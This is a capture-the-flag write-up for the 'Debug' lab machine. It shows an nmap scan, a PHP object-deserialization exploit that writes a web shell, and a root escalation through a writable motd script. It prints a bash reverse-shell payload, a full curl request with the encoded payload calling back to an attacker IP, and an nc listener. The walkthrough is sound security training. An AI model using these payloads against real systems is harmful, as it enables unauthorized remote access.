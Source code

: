 ```yaml
---
layout: default
title : muzec - Debug Writeup
---
```


![Image](https://imgur.com/Uns35Qw.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sat Apr  3 02:05:29 2021 as: nmap -sC -sV -oA nmap 10.10.142.82
Nmap scan report for 10.10.142.82
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  3 02:06:08 2021 -- 1 IP address (1 host up) scanned in 39.31 seconds
```

2 open ports also i scan for full ports but we got only 2 which port 22,80 let hit port 80 which is HTTP.

![Image](https://imgur.com/nE7FFlA.png)

A default apache page hmmm cool let burst some dirs with ffuf.

![Image](https://imgur.com/9Axj68k.png)

The Backup dir look interesting let check it out.

![Image](https://imgur.com/Djxrsm9.png)

Some index backup cool let get it our machine to inspect it well maybe some hidden credentials can be found,so i cat the index.html.bak first and nothing it just the same apache page source code so i cat the index.php.bak.

![Image](https://imgur.com/8kSGvIP.png)

Cool looking interesting let check http://IP/index.php

![image](https://imgur.com/VAfc139.png)

Let go back to the source code with some little research with google found out it vulnerbale to php deserialization and guess what we can exploit it to get RCE yes i mean Remote Code Execution lol.

Here we see that the script looks for a GET input variable `debug` and unserializes it. We might be able to exploit it using PHP Object Deserialization.

Here is a class called `FormSubmit` with a `__destruct` function implemented. This function is what we can use to get RCE. The function uses file_put_contents to write the variable `message` to the file defined in the variable `form_file`. If we go over to the URI IP/message.txt and we got some 200 respond which is success.

Now let exploit it

1. We write the class `FormSubmit` on our local machine, define `form_file` to be a php file and the data to be a php reverse shell to our local machine.

2. We serialize our defined class and pass it as input to the GET variable variable.

3. The input gets passed to deserialize and a new instance of the class is created with our defined variables.

4. At the `__destruct` function, our reverse shell gets written to the root of the web directory to the filename defined by us(shell.php in my case). Now if we go to the URI of the file, we can get a reverse shell.

Let start;

`php -a`

![Image](https://imgur.com/V8JzjN3.png)

```
class FormSubmit {
  public $form_file = 'shell.php';
  public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/VPN-IP/PORT 0>&1\'"); ?>';
  }

print urlencode(serialize(new FormSubmit));
```

We copy the output of the print command and pass it to the GET variable using curl.

`curl -i 10.10.230.188/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.0.156%2F1337+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D`

Now let start and Ncat listener and access IP/shell.php to get our shell.

`nc -nvlp PORT`

![image](https://imgur.com/U0sWCox.png)

Boom we got shell.

Going to the home dir got some user folder but we have no access to it let enumerate maybe we can get a credentials to log in and yes am right i was able to get the credentials for the user just look around the dir lol.

A user with a hash password time to call john the ripper to crack it i was able to crack it in some min now let use it to ssh into the machine.


![Image](https://imgur.com/KziCUN7.png)

Boom we have user.txt also a Note from the root user.

![image](https://imgur.com/3Dq2Wd8.png)

Cool we have access to modify all these files in the motd (message of the day)  folder.

![Image](https://imgur.com/1jbLQiO.png)

Now let inject our reverse shell payload to the '00-header' file.

![image](https://imgur.com/htVWszd.png)

Let save it and start an ncat listener on our maachine also let log out the ssh and try to log in again.

![Image](https://imgur.com/ZqFeqDu.png)

Now let check our Ncat listener.

![Image](https://imgur.com/CV3CWx9.png)

Boom we are root.

![image](https://imgur.com/Ys9owlP.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
